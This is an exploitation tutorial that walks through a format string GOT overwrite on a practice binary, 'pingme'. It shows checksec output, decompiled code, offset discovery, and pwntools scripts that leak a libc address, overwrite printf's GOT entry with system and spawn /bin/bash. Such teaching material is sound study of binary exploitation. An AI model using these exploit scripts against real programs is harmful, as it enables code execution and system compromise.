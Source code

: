# Format String: Overwrite GOT Address


This technique is used to overwrite a GOT address(the address which points a dynamically linked function to the linked library) to that of other function. This is very useful techniques when you have a format string vulnerability and you want to change the control flow a function to something that it was not *supposed* to do. Here, we will take a binary which has a format string vulnerability and how we can use it overwrite GOT address sto that of other address. 

# Practical

***

Binary : [here](/Attachments/images/overwrite-got-fmt/other/pingme)

Exploit: [here](/Attachments/images/overwrite-got-fmt/other/pingme.py)

***


First off, we need to check the binary protections, let's use `checksec`:-

```r
d4mianwayne@oracle:~/Pwning/fmt$ checksec pingme
[*] '/home/d4mianwayne/Pwning/fmt/pingme'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

NX is enabled other than everything is disabled. One security mechanism is of interest is `RELRO` which is an abbreviation of `Relocation Read Only` which means the relocations entry is read-only i.e. the Global Offset address. To be more specific, this mechanism do not allow you to overwrite a GOT entry and prevents you from changing the control flow. You can found more information about `RELRO` [here](https://medium.com/@HockeyInJune/relro-relocation-read-only-c8d0933faef3). 

Since, here it is disabled which means we can overwrite the GOT entry. But before that let's reverse engineer the binary and see the workflow. Using IDA, `main` is:-

```C
void __cdecl __noreturn main()
{
  char format; // [esp+Ch] [ebp-4Ch]
  unsigned int v1; // [esp+4Ch] [ebp-Ch]

  v1 = __readgsdword(0x14u);
  initialize();
  puts("Ping me");
  while ( 1 )  <----- While `loop`
  {
    if ( getinp(&format, 64) )
    {
      printf(&format);   <---------- Format String Vulnerability
      putchar(10);
    }
    else
    {
      puts(";( ");
    }
  }
}
```

We can see that there is a format string vulnerability and the while loop is taking the input until some error occurs or we quit the program itself. The `getinp` seems to be taking input. Let's check what it do:-

```C
size_t __cdecl getinp(char *s, int n)
{
  char *v3; // [esp+Ch] [ebp-Ch]

  fgets(s, n, stdin);
  v3 = strchr(s, 10);
  if ( v3 )
    *v3 = 0;
  return strlen(s);
}
```

It's taking input and checking if the input has  a new line if it adds a null byte to the input and return the length of the string.

### Triggering the Vulnerability and Finding Offsets

Now, since we know how the program works we need to trigger the vulnerability and find the offset of the input on the stack. Let's run the program:-

```r
d4mianwayne@oracle:~/Pwning/fmt$ ./pingme 
Ping me
%x-%x-%x-%x
40-ff925b78-8048638-0
%x-%x-%x
40-ff925b78-8048638
AAAA-%x-%x-%x-%x-%x-%x-%x
AAAA-40-ff925b78-8048638-0-0-13-41414141
^C
```

Since we give `%x` and we can see that there are some hex values, then we try `AAAA` and a couple of `%x` and then we see the output `AAAA-40-ff925b78-8048638-0-0-13-41414141`, we can see that the given `AAAA` in hex value `41414141` at the offset `7`, which will be used in further exploit.

### Defeating ASLR: Leaking GOT address

Since we know that ASLR is enabled we have to leak a GOT address to calculate the address of LIBC base address, to leak an address we have to give `%8$s` and `GOT address`. Then the payload will look like this:-

```r
------------------------------
|   "%8$s" |   GOT address   |
------------------------------
```

Now, let's make a pwntools' exploit:-

```python
#!/usr/bin/python3
from pwn import *

p = process("./pingme") # Starting local process

libc = ELF("/lib/i386-linux-gnu/libc.so.6")

puts_got = 0x8049980 # GOT address of `puts`

payload = b"%8$s"      # To print the address
payload += p32(puts_got) # The address to be printed

pause()  # Pausing the execution to attach it in `gdb`
p.sendlineafter(b"me\n", payload) # Send the payload after the delimiter
puts_leak = u32(p.recv(4).strip().ljust(4, b"\x00")) # Recieve the 4 bytes, align it and then parse it accordingly.
log.info("puts@libc: "+hex(puts_leak)) # Print the hex value of the leaked `puts`
p.interactive() # Interactive mode
```

Running the exploit and continuing:-

---

![attach](/Attachments/images/overwrite-got-fmt/images/attach.png)

---

Now, continuing the process:-

---

![continue](/Attachments/images/overwrite-got-fmt/images/continue.png)


---

Let's check the `puts` address in `gdb` with `p puts` and see if it equals to what we recieved:-

---

![leak](/Attachments/images/overwrite-got-fmt/images/got-leak.png)

---

Great, we have leaked a libc address, now we need to calculate the lhe base address, we know the drill so we will use pwntools' `ELF` to update the address by subtracting the leak address from it's offset from libc.

`libc.address = puts_leak - libc.symbols['puts']`


### Pwning Time

Now, we gotta overwrite the GOT of `printf` with `system` so that if we give any input to `printf` the input will be redirected to system. For example, like if we gave `cat flag.txt` to the input the `printf` will print `cat flag.txt` but since now, it's GOT points to system, giving `cat flag.txt` will take it as a system command and read the `flag.txt` file.

We will be using `fmtstr_payload` function of pwntools to generate the payload which will be used to overwrite the GOT address of `printf` with `system`:-

```r

from pwn import *

p = process("./pingme") # Start the process
 
libc = ELF("/lib/i386-linux-gnu/libc.so.6") # pwntools' `ELF`

puts_got = 0x8049980      # `puts` GOT to leak
printf = 0x8049974        # `printf` GOT to overwrite
payload = b"%8$s"         # Leaking the GOT address
payload += p32(puts_got)  # The address to be leaked

p.sendlineafter(b"me\n", payload)                    # Send payload after the `me\n`
puts_leak = u32(p.recv(4).strip().ljust(4, b"\x00")) # Recieving 4 bytes and  unpacking it
log.info("puts@libc: "+hex(puts_leak))               # Printing the leak address as hex
 
libc.address = puts_leak - libc.symbols['puts']      # Updating the libc base by subtracting 
system = libc.symbols['system']                      # `system` address 
payload = fmtstr_payload(7, {printf:  system})       # Overwiting the GOT address of `printf` with `system` address
p.sendline(payload)                                  # Sending payload 
p.sendline(b"/bin/bash\x00")                         # Sending `/bin/bash` to spawn shell
p.interactive()                                      # Interactive mode

```

Attaching it to `gdb` and then checking the `GOT` address of `printf` we can see that it has been overwritten with the address of `system`.

---

![shell](/Attachments/images/overwrite-got-fmt/images/shell.png)


---

We are done.